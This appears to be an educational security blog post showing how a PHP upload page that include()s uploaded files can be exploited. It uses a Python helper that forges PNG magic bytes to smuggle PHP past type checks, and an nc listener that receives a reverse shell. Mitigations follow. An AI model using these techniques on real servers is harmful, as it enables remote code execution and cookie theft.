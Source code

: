 ## A commonly overlooked PHP programming flaw, Linux magic numbers, Python and NC. How much could go wrong?

## Understanding the Application
- Navigating to our test application brings us to an upload page:
```
<html<
  <h1>Upload an image:</h1>
  <form action="upload.php" method="POST" enctype="multipart/form-data"">
    <input type="file" name="userfile" />
    <input type="submit" value="Submit" name="submit" />
  </form>
</html>
```
![webapp_1.png]({{site.baseurl}}/assets/img/webapp_1.png)

- After uploading a file, we get back a link that we can follow to either view the image and/or share it with others:
![webapp_2.png]({{site.baseurl}}/assets/img/webapp_2.png)

```
<?php
  if( isset($_POST["submit"]) ) {
    $upload_dir = "./uploads";
    $upload_name = $upload_dir . $_FILES["userfile"]["name"];
    if( move_uploaded_file($_FILES["userfile"]["tmpname"], $upload_name) ) {
      echo("Success! Here's the image you uploaded: <br><br>");
      echo("View/Share link: <a href='http://localhost:5000/view.php?id='" . $_FILES["userfile"]["name"] . "'>Share!</a>);
    }
    else {
      echo("Upload error");
    }
  }
  else {
    echo("Please upload a file.");
  }
?>
```

- Viewing the image:
```
<? php
  include("./uploads" . $_GET['id']);
  // storing the above in a variable, further processing ...
?>
```

Typically, developers would implement file type both on client side using JavaScript as well as on the backend either through just a string comparison of the `file extension` or through the `EXIF header checks` in the case of PHP applications. This ensures that users upload only images and not (for example) PHP code that could be interpreted.

The `exif_imagetype(string $filename)` function returns the type of an image based on the first few bytes present in the file. These bytes typically found at the start of the file are called `Magic File Numbers` and are responsible for defining actual file types to the operating system dealing with them. As you would expect, each file type/extension would have a unique set of identifying bytes.

This implies that only the first few bytes are considered in validating a file type. Bytes beyond the scope of the magic number length are responsible for other attributes of the file such as width/height for images or content and format specifiers in case of documents.

### What happens when we try injecting random non-file-specific data into the file? Can we still convince the OS that the file is valid?
Below is a snippet from a tool I wrote to embed content in media files.
```
# also modifying height, width, bit-depth of image
# hardcoded to 256x256, 24-bit depth
# uses the args dict, eg: args = {'ext' = 'png', text = 'some text here'}
def inj2png(args):
	rfname = getRandomFileName()
	with open(rfname + '.' + args.ext, 'wb') as f:
		f.write(b'\x89\x50\x4e\x47\x0d\x0a\x1a\x0a\x00\x00\x00\x0d\x49\x48\x44\x52 \
            \x00\x00\x01\x00\x00\x00\x01\x00\x18\x45\x4e\x44\xae\x42\x60\x82' + \
            args.text.encode())
	print(rfname + '.' + args.ext, ' was written.')
```

Running the script, hexdump-ing the resulting image and running the OS provided `file` command shows:
![webapp_3.png]({{site.baseurl}}/assets/img/webapp_3.png)

Magic bytes at the start of the file could get us past OS file checks as well as exif checks in PHP. Let’s introduce a heavily flawed practice to understand the damage these concepts could do together.
`include(string $filename); // require() also problematic`

*The include and require statements take all the text/code/markup that exists in the specified file and copies it into the file that uses these statements.*

In case of our web application, once you upload an image, it is invoked server-side through an `include()` statement. The same effect could be caused by trying to request the file, causing a vulnerable web server to execute the code. We know that this call would evaluate any valid PHP in the included file.

## What happens if we embed PHP?
### Server-side execution
![webapp_4.png]({{site.baseurl}}/assets/img/webapp_4.png)

Once uploaded, we get the following:
![webapp_5.png]({{site.baseurl}}/assets/img/webapp_5.png)

On clicking the image, the server would `include()` the file we just uploaded, causing the payload to run, resulting in:
![webapp_6.png]({{site.baseurl}}/assets/img/webapp_6.png)

### Returning JS
![webapp_7.png]({{site.baseurl}}/assets/img/webapp_7.png)

On following the view/share link, we get a page that shows:
![webapp_8.png]({{site.baseurl}}/assets/img/webapp_8.png)

Unless cookies are marked http-only, we now have access to them via the JS browser API.

### Remote Login
On our remote machine:
`nc -lvp 4444`

Make sure firewall rules ALLOW on the port:
```
sudo iptables -I INPUT -p tcp --dport 4444 -j ACCEPT
sudo iptables -I OUTPUT -p tcp --dport 4444 -j ACCEPT
```

![webapp_9.png]({{site.baseurl}}/assets/img/webapp_9.png)

Once we upload the image and follow the view/share link, we see a connection log on our listener - we have a shell on the system.

If the web-server was running as root, we would now have full access to the system. 

## Preventing all of the above
- Validating files based on just their extensions via string comparisons is pointless.
- Validating files by content through EXIF functions or the underlying OS is a shade better and does provide some protection.
- Validating file size is an added layer of defence but could also be spoofed by modifying additional bytes following the magic number range.
- Going through the file and looking for suspect characters is a sure-fire way of preventing the above, but is not very practical to implement.
- Do not trust user input. Do not use include() or require() directly for any sort of processing on user uploaded files. Always sanitize input and check against a white-list.
- *Run the web server with a limited set of permissions.* The process should be limited to directories and files that it needs, with minimum required permissions.
- Harden your server. Remove the tools you do not need and do not allow outgoing connections unless absolutely required. Even so, implement a whitelist for the same. 
- WAF and HIDS should be configured to pick up on abnormal behaviour.

*Disclaimer: This article is purely for educational purposes. Do not scan or interefere with any systems unless you have explicit permission for testing by the owner. I am not responsible for any form of damage to any assets caused through misuse of this information.*
